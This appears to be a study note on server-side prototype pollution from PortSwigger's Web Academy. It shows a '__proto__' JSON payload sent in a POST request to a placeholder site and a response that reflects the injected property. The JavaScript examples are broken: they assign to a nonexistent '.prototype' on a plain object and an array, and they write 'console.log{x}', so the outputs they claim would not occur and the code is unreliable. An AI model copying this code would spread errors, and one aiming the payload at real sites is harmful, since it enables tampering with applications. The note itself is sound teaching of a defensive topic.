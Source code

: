 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/polluted-property-reflection/"}
---
```



---


A Javascript's `for...in` loop iterates all over the object's properties including the ones that have been polluted. Example:

```js
const ObjectSaya = {a: 4, b: 2};

// Polluted the property
ObjectSaya.prototype.foo = 'bar';

// Check the object doesn't have its own 'foo' property, only inherited
ObjectSaya.hasOwnProperty('foo');  // False

// List names of properties from the object
for(const x in ObjectSaya){
	console.log{x}
}

// Output: a, b, foo
```

This also applies to arrays, when looping over indexes

```js
const ArraySaya = ['a', 'b'];

// Polluted the property
ArraySaya.prototype.foo = 'bar';

// List indexes from the array
for (const x in ArraySaya){
	console.log{x}
}

// Output: 0, 1, foo
```


---

Either way, if an application returns properties in a response, especially in a POST or PUT request that submits JSON data, they can be prime targets for Server-Side Prototype Pollution. In this case, we are polluting the global `Object.prototype`

```json
POST /user/update HTTP/1.1 
Host: vulnerable-website.com 
... 
{ 
	"user":"wiener", 
	"firstName":"Peter", 
	"lastName":"Wiener", 
	"__proto__":{ 
		"foo":"bar" 
	} 
}
```

If the website is vulnerable, the injected property would appear in the response:

```json
HTTP/1.1 200 OK 
... 
{ 
	"username":"wiener", 
	"firstName":"Peter", 
	"lastName":"Wiener", 
	"foo":"bar" 
}
```


